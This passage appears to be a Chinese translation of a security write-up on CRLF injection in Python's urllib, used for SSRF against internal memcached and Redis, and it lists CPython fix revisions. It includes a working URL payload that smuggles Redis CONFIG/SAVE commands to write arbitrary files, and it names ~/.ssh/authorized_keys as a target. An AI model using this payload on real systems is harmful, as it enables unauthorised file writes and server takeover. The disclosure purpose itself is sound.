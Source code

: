 当检查下面几行memcached的协议语法的时候，大部分都是语法错误，但是memcached在收到错误的命令的时候并不会关闭连接，这样攻击者就可以在请求的任何位置注入命令了，然后memcached就会执行。下面是memcached的响应（memcached是Debian下包管理默认配置安装的）

```
ERROR
ERROR
ERROR
ERROR
ERROR
STORED
ERROR
ERROR

```

经过确认，memcached中确实成功的插入了`foo`的值。这种场景下，攻击者就可以给内网的memcached实例发送任意命令了。如果应用依赖于memcached中存储的数据（比如用户的session数据，HTML或者其他的敏感数据），攻击者可能获取应用更高的权限了。这个利用方式还可以造成拒绝服务攻击，就是攻击者可以在memcached中存储大量的数据。

攻击Redis
-------

Redis和memcached很相似，因为都提供了数据备份存储，一些内置数据类型，还能执行Lua脚本。前几年Quite a bit公布了攻击Redis的一些方法（[链接1](https://benmmurphy.github.io/blog/2015/06/04/redis-eval-lua-sandbox-escape/)[链接2](http://antirez.com/news/96)[链接3](http://www.agarri.fr/kom/archives/2014/09/11/trying_to_hack_redis_via_http_requests/index.html)）。和memcached类似，Redis提供了TCP协议的接口，然后也可以执行一堆错误命令中的正确命令。另外，还可以利用Redis在写任意文件，攻击者可以控制一部分文件内容。比如下面的URL在`/tmp/evil`下创建了一个数据库文件。

```
http://127.0.0.1%0d%0aCONFIG%20SET%20dir%20%2ftmp%0d%0aCONFIG%20SET%20dbfilename%20evil%0d%0aSET%20foo%20bar%0d%0aSAVE%0d%0a:6379/foo

```

然后可以看到刚才存储的一些键值对数据

```
# strings -n 3 /tmp/evil
REDIS0006
foo
bar

```

理论上，攻击者就可以利用Redis创建或者改写一些敏感文件了，包括

```
 ~redis/.profile
 ~redis/.ssh/authorized_keys
...

```

0x03 多版本的Python都受到影响
=====

Python 2和3版本都受到影响，Cedric Buissart 提供了修复问题的部分信息。

3.4 / 3.5 :[revision 94952](https://hg.python.org/cpython/rev/bf3e1c9b80e9)  
2.7 :[revision 94951](https://hg.python.org/cpython/rev/1c45047c5102)
